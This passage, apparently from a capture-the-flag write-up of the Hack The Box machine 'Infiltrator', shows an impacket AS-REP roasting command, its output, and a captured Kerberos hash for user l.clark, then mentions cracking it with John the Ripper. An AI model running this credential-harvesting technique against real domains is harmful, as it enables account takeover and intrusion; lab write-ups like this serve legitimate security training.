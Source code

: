 Our next logical step was to see if some of the accounts are potentially vulnerable to `ASREPRoasting` and indeed we found that the account of `l.clark` was vulnerable to it.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ impacket-GetNPUsers infiltrator.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$l.clark@INFILTRATOR.HTB:5720b3adf3c1109d57fe9886dab9d71d$dd6547b5e9d492d740dfb7f910dff7718d9f7e5f1021714d8216b97dfa55686c65e797204ca7abe005d7b7841c05e0d3dab8866eafcd63d7acb22c98955fa35cb8fbf0da656c8400c9b3600753c5ced7c77237af50b409e8080b0ab59209a534506021a4946d017a26d5a4f424730da7ed7f324866541d3c28bca83eeede5bb65b25076b7f2eebb26c0ad8c13b9577c43a00c00fe24093b584ba1c0c55357f2334e03f3b436cb08ed589f7f5fe9037e8f12720e1ac3c2c826c8459db35250b56875043a8cec7f02875aef4903628efbc5050cfd68b4bb8a3d7157ea122757726580a73b9efd33f0ddbd960d94f849dc98ad8
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

We grabbed his `hash` and `cracked` it using `John the Ripper`.
